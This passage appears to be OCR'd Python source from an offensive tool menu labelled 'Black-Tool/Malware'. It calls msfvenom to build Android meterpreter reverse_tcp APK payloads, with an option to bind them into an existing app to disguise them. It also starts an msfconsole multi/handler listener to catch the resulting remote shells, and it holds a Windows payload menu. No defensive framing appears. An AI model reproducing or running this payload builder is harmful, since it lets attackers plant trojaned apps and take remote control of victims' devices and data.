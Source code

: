             time.sleep(0.5)
            try_ = input("Press Enter...")
            self.android_mal()  
        
    def android_payload(self):
        self.clear()
        self.banner()
        host = input("\nEnter IP: ")
        port = input("Enter Port: ")
        payload_name = input("Enter Payload Name: ")
        while True:
            bind_q = input("Do You Have A Orginal File? [y/n] ")
            if bind_q == "y":
                orginal_file = input("Enter Orginal File: ")
                make_payload = subprocess.getoutput(f"msfvenom -x {orginal_file} -p android/meterpreter/reverse_tcp LHOST={host} LPORT={port} -o {payload_name}.apk")
                print(make_payload)
                break
            elif bind_q == "n":
                make_payload = subprocess.getoutput(f"msfvenom -p android/meterpreter/reverse_tcp LHOST={host} LPORT={port} -o {payload_name}.apk")
                print(make_payload)
                break
            else: continue
        while True:
            try_2 = input("Make Payload Again? [y/n] ")
            if try_2 == "y":
                self.android_payload()
            elif try_2 == "n":
                break
            else:
                continue
        self.main_menu()
    def android_listener(self):
        self.clear()
        self.banner()
        host = input("\nEnter Host: ")
        port = input("Enter Port: ")
        os.system(f"msfconsole -x 'use multi/handler; set LHOST {host}; set LPORT {port}; set PAYLOAD android/meterpreter/reverse_tcp; exploit'")
        while True:
            try_3 = input("Try Listener Again? [y/n] ")
            if try_3 == "y":
                self.android_listener()
                break
            elif try_3 == "n":
                break
            else:
                continue
        self.android_mal()
    def windows_mal(self):
        self.clear()
        self.banner()
        print("\n{1}.Make Payload")
        print("{2}.Start Listener")
        print("{99}.Main Menu")
        command = str(input(Style.BRIGHT + "\nBlack-Tool/Malware/Windows# "))
        if command == "1":
            self.windows_payload()
        elif command == "2":
            self.windows_listener()
        elif command == "99":
            self.main_menu()
        else: